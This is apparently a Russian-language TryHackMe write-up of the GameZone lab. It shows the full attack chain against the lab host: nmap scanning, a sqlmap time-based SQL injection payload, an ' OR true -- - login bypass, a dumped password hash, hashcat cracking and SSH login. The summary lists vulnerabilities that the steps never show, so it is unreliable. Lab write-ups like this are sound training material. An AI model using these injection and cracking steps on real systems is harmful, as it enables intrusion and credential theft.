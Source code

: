 # TryHackMe - Win Easy - GameZone

📅 Дата: 2025-07-04  
🧠 Сложность:  
💻 IP-адрес: 10.10.220.157  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -n --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.220.157 && nmap_ctf $ip
```

### nmap:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Game Zone
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), Linux 5.4 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.010 days (since Fri Jul  4 21:26:28 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![nmap scan](screenshots/nmap_scan.png)

### sqlmap
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/scans]
└─$ sqlmap -u http://10.10.220.157/index.php --method POST --data "username=*&password=pass&x=14&y=12" --dbms=mysql --technique=BT  --random-agent --flush-session --dbs
sqlmap identified the following injection point(s) with a total of 40 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2830 FROM (SELECT(SLEEP(5)))TUir) AND 'rgkV'='rgkV&password=pass&x=14&y=12
---
available databases [5]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

---

## 🕵️ Enumeration

Обход аутентификации при
login [' OR true -- -]
pass  [' OR true -- -]

Далее дамп при помощи sqlmap
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ sqlmap -r post.txt --dbms=mysql -D db -T users --dump 
---
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```



## 📂 Получение доступа

Сохраняю hash
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ cat hash.txt           
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

Запускаю hashcat
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ hashcat -m 1400 -a 0  hash.txt /media/sf_Exchange/Dictionaries/rockyou.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ hashcat -m 1400 -a 0  hash.txt --show                                     
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124
```

Получаю ssh
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ ssh agent47@10.10.220.157             
The authenticity of host '10.10.220.157 (10.10.220.157)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.220.157' (ED25519) to the list of known hosts.
agent47@10.10.220.157's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ pwd
/home/agent47
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
```



## ⚙️ Привилегии



## 🏁 Флаги

- User flag: 
- Root flag: 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


